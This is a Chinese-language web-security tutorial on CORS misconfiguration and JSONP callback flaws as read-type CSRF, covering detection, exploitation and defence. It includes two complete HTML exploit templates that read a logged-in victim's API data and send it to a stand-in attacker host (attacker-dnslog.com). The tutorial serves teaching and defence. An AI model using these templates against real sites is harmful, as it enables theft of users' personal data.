









# 网络安全：P14：CSRF实战教程

## 概述
在本节课中，我们将学习两种特殊的跨站请求伪造漏洞：CORS与JSONP。这两种漏洞属于“读取型”CSRF，攻击者可以利用它们窃取用户的敏感数据，而非执行操作。我们将深入理解其原理、寻找方法以及利用方式。

---

## 同源策略与跨域解决方案
上一节我们介绍了操作型CSRF，本节中我们来看看读取型CSRF的基础。浏览器有一个重要的安全策略叫“同源策略”。它规定，来自不同源的脚本在没有明确授权的情况下，不能读取对方的资源。

例如，网站A的JavaScript无法直接读取网站B接口返回的数据。但在现代前后端分离的开发模式下，跨域获取资源是常见需求。因此，出现了几种跨域解决方案。

以下是三种主要的跨域解决方案：
*   **CORS**：目前最主流的跨域方案。
*   **JSONP**：一种较老的跨域技术。
*   **PostMessage**：使用较少，本教程不展开。

CORS和JSONP本意是解决合法的跨域问题，但如果配置不当，就会成为安全漏洞，被攻击者利用来窃取数据。

---

## CORS漏洞详解
### 什么是CORS？
CORS通过在HTTP头中添加特定字段来实现跨域。其核心流程如下：
1.  浏览器向目标服务器发送请求，并在请求头中携带 `Origin` 字段，表明请求来源。
2.  服务器检查 `Origin`，如果允许该来源跨域，则在响应头中返回 `Access-Control-Allow-Origin: [来源域名]`。
3.  浏览器检查响应头，如果包含允许当前来源的字段，则处理响应数据；否则驳回请求。





### 漏洞成因
漏洞的成因在于服务器对 `Access-Control-Allow-Origin` 字段的配置过于宽松。例如，将其设置为 `*`（允许所有来源）或动态反射请求中的 `Origin` 值。

**判断方法**：使用Burp Suite等工具拦截请求，修改 `Origin` 头为一个任意值（如 `http://evil.com`）。如果服务器返回的 `Access-Control-Allow-Origin` 头也变成了 `http://evil.com`，说明存在配置不当，可能存在CORS漏洞。





### 漏洞利用
存在CORS漏洞的接口，可以被任何域下的网页通过JavaScript读取其返回内容。这构成了读取型CSRF。

**攻击场景**：假设某网站用户个人资料接口存在CORS漏洞。攻击者构造一个恶意网页，其中包含读取该接口的JavaScript代码。当受害者（已登录目标网站）访问这个恶意网页时，代码会悄无声息地读取并发送受害者的个人资料（如手机号、地址）到攻击者的服务器。

**利用代码模板**：
```html
<!DOCTYPE html>
<html>
<head>
    <title>CORS Exploit</title>
</head>
<body>
    <script>
        // 目标存在CORS漏洞的敏感接口
        var req = new XMLHttpRequest();
        req.open('GET', 'http://vulnerable-site.com/api/sensitive_data', true);
        req.withCredentials = true; // 携带Cookie
        req.onreadystatechange = function() {
            if (req.readyState == 4) {
                // 将窃取到的数据发送到攻击者控制的服务器
                fetch('http://attacker-dnslog.com/steal?data=' + encodeURIComponent(req.responseText));
            }
        };
        req.send();
    </script>
</body>
</html>
```
**关键点**：
1.  `http://vulnerable-site.com/api/sensitive_data`：替换为存在CORS漏洞的实际接口。
2.  `http://attacker-dnslog.com`：替换为攻击者用于接收数据的地址（如DNSLog平台）。

---





## JSONP漏洞详解
### 什么是JSONP？
JSONP是一种利用 `<script>` 标签不受同源策略限制的特性来实现跨域的技术。网站通过 `<script>` 标签加载一个返回JSON数据的接口，并通过URL参数指定一个回调函数名（通常叫 `callback` 或 `jsonp`）。

### 漏洞成因
如果服务器未对回调函数名进行严格过滤，并且接口返回敏感数据，就存在JSONP漏洞。攻击者可以控制回调函数，执行任意代码来窃取数据。

**判断方法**：寻找返回JSON数据并包含 `callback`、`jsonp` 等参数的接口。尝试修改该参数的值（如改为 `test`），如果返回的数据被包裹在 `test(...)` 中，则说明存在JSONP调用，可能存在漏洞。

### 漏洞利用
与CORS漏洞类似，JSONP漏洞也可被用于窃取接口数据。




**攻击场景**：与CORS漏洞场景一致，通过恶意网页加载存在漏洞的JSONP接口，控制回调函数将数据发送给攻击者。

**利用代码模板**：
```html
<!DOCTYPE html>
<html>
<head>
    <title>JSONP Exploit</title>
</head>
<body>
    <script>
        // 自定义回调函数，用于接收并处理数据
        function stealData(data) {
            // 将窃取到的数据发送到攻击者服务器
            fetch('http://attacker-dnslog.com/steal?data=' + encodeURIComponent(JSON.stringify(data)));
        }
    </script>
    <!-- 利用 script 标签加载存在漏洞的JSONP接口，并指定回调函数为 stealData -->
    <script src="http://vulnerable-site.com/api/user_info?callback=stealData"></script>
</body>
</html>
```
**关键点**：
1.  `stealData` 函数：攻击者定义的回调函数，用于接收数据并外传。
2.  `http://vulnerable-site.com/api/user_info?callback=stealData`：替换为存在JSONP漏洞的实际接口，并将回调参数指向自定义函数。

---

## 漏洞挖掘与防御
### 如何寻找漏洞
以下是寻找CORS和JSONP漏洞的简要步骤：
1.  **信息收集**：使用浏览器开发者工具或爬虫，收集目标网站的所有API接口。
2.  **参数识别**：
    *   寻找HTTP响应头中包含 `Access-Control-Allow-Origin` 的接口。
    *   寻找URL中包含 `callback`、`jsonp`、`cb` 等参数的GET请求接口。
3.  **漏洞验证**：
    *   对于CORS：修改请求的 `Origin` 头，检查响应头是否反射。
    *   对于JSONP：修改回调参数，检查返回内容是否被动态包裹。

### 如何防御
上一节我们介绍了操作型CSRF的防御，本节介绍的读取型漏洞防御核心在于严格的服务器端配置。
*   **CORS防御**：
    *   避免使用 `Access-Control-Allow-Origin: *`。
    *   在服务器端设置严格的白名单，只允许可信的源。
    *   避免将请求中的 `Origin` 值不加检查地反射到响应头中。
*   **JSONP防御**：
    *   严格校验回调函数名，只允许预定义的、安全的函数名。
    *   对返回的数据进行严格的输出编码，防止XSS。
    *   考虑使用更现代的CORS替代JSONP。

---




## 总结
本节课中我们一起学习了两种读取型跨站请求伪造漏洞：CORS与JSONP。
1.  我们理解了它们源于跨域解决方案的配置不当。
2.  我们掌握了其原理：CORS通过HTTP头实现，JSONP通过 `<script>` 标签实现。
3.  我们学习了如何通过修改特定参数（`Origin` / `callback`）来探测这些漏洞。
4.  我们分析了攻击者如何构造恶意页面，诱骗受害者访问以窃取其敏感数据。
5.  最后，我们探讨了如何通过严格的服务器端白名单和输入校验来防御此类漏洞。



请牢记，无论是操作型还是读取型CSRF，其危害都建立在用户已登录目标网站的前提下。在实际安全测试中，务必在授权范围内进行。